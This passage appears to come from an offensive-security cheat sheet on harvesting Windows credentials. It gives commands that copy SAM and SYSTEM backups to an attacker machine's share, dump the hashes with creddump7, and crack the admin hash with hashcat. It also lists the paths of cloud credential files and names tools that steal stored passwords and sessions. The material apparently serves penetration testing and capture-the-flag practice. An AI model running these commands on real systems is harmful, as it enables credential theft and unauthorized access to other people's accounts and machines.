 The SAM and SYSTEM files are located in the C:\Windows\System32\config directory. The files are locked while Windows is running. Backups of the files may exist in the C:\Windows\Repair or C:\Windows\System32\config\RegBack directories.

if you find any backup files copy them to the attacker machine and use creddump7 to dump the hashes from SAM database:

```text
copy C:\Windows\Repair\SAM \\192.168.1.11\tools\
copy C:\Windows\Repair\SYSTEM \\192.168.1.11\tools\

git clone https://github.com/Neohapsis/creddump7.git

python2 creddump7/pwdump.py SYSTEM SAM
```

you can try to crack the admin hash with hashcat:

```text
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```

### Cloud Credentials <a id="cloud-credentials"></a>

```text
##From user home.aws\credentialsAppData\Roaming\gcloud\credentials.dbAppData\Roaming\gcloud\legacy_credentialsAppData\Roaming\gcloud\access_tokens.db.azure\accessTokens.json.azure\azureProfile.json
```

### Tools that search for passwords <a id="tools-that-search-for-passwords"></a>

​[**MSF-Credentials Plugin**](https://github.com/carlospolop/MSF-Credentials) **is a msf** plugin I have created this plugin to **automatically execute every metasploit POST module that searches for credentials** inside the victim. [**Winpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) automatically search for all the files containing passwords mentioned in this page. [**Lazagne**](https://github.com/AlessandroZ/LaZagne) is another great tool to extract password from a system.

The tool [**SessionGopher**](https://github.com/Arvanaghi/SessionGopher) search for **sessions**, **usernames** and **passwords** of several tools that save this data in clear text \(PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP\)

```text
Import-Module path\to\SessionGopher.ps1;Invoke-SessionGopher -ThoroughInvoke-SessionGopher -AllDomain -oInvoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p [email protected]
```

## Files and Shares

### find files by name

```text
gdr -PSProvider 'FileSystem' | %{ls -r $_.root} 2>$null | where { $_.name -eq "flag.txt"} -verbose
```
